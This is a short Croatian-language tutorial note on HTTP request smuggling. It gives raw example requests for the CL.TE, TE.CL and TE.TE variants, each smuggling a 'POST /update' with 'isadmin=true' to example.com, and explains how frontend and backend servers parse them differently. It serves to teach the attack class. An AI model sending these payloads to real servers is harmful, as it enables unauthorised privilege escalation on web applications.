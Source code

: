 Postoje dvije bitne vrste svercanja HTTP requestova 

CL.TE
Content-length/Tranfer-encoding

Primjer requesta:

-------------------------------
POST /search HTTP/1.1
Host: example.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /update HTTP/1.1
Host: example.com
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

isadmin=true
-------------------------------
Frontend dobiva paket u kojemu ju zapisano da ima duljinu 130 bytova i da je podatak chunked.
Zato sto je chunked, kada backend primiti te pakete, zbog 0, odvojiti ce ih i odvojeno obraditi. Tj prvo ce obraditi prvi i onda drugi.
Zbog toga, generalno ne bi imali pristup /update kada bi ga poslalo na frontend, ali zato sto je frontedn vidio prvi header search, prosljedio ga je backendu i on ga procesirao.



TE.CL
Transfer-Encoding/Content-Length

Primjer requesta:

-------------------------------
POST / HTTP/1.1
Host: example.com
Content-Length: 4
Transfer-Encoding: chunked

78
POST /update HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

isadmin=true
0
-------------------------------

Frontend dobiva ovaj request i nakon chunked vidi 78 koji je hexa, a 120 je decimalan, što znaci da iducih 120 bytova su dio tijela requesta. 
Frontend sve do 0 se smatra dio tijela prvog zahtijev. 
No zbog Content-Length: 4 backend server cita iz requesta samo prva 4 byta koji su: 78\r\n, te ostatak poruke procesira kao odvojenu poruku jer pocinje sa POST /update.
U slucaju da smo greskom stavili contnet-length: 5 on bi procesirao i uzeo P iz POSTA i onda bi iduca "poruka" zapocela sa OST i bila bi automatski odbacena jer je nepravilnog formata.

TE.TE
Transfer-Encoding/Transfer-Encoding

Primjer requesta:

-------------------------------
POST / HTTP/1.1
Host: example.com
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: chunked1

4e
POST /update HTTP/1.1
Host: example.com
Content-length: 15

isadmin=true
0
-------------------------------

Frontend očitava poruku i dolazi do Transfer-Encoding zaglavlja. Frontend možda procesira samo prvo zaglavlje i odbaci drugo jer je nepravilnog oblika, te pritom tumaciti zahtjev sve do 0 ili ce posluzitelj odbaciti kompletno zahtijev.
Backend kada primi dani zahtjev može isto kao frontend za zanemariti ili interpretirati drugacije. kad backend procita samo prva 4 bajta zbog content-lengtha postoji šansa da ostatak zahtijeva  POST /update tretira kao odvojeni i zaseban zahtijev.
